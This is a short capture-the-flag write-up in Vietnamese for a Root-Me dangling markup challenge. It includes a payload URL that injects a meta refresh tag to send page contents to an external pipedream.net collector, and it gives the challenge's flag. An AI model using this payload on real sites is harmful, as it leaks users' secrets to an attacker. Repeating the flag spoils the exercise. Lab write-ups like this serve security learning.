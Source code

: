 ![1](1/../img/16/Screenshot%20from%202023-01-28%2018-41-49.png)

- Đây là lỗi có thể thoát khỏi thẻ để chèn thẻ HTML. Tham khảo payload ở
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection#stealing-clear-text-secrets.

![1](1/../img/16/Screenshot%20from%202023-01-28%2018-37-10.png)

- Ở đây ta sử dụng thẻ < meta>. Gửi payload qua server của ta:

```
http://challenge01.root-me.org:58029/page?user="><meta http-equiv="refresh" content='0;URL=https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?

```

- Result:

![1](1/../img/16/Screenshot%20from%202023-01-28%2018-36-12.png)

```
Flag:  D4NGL1NG_M4RKUP_W1TH_FIREF0X_EASY
```
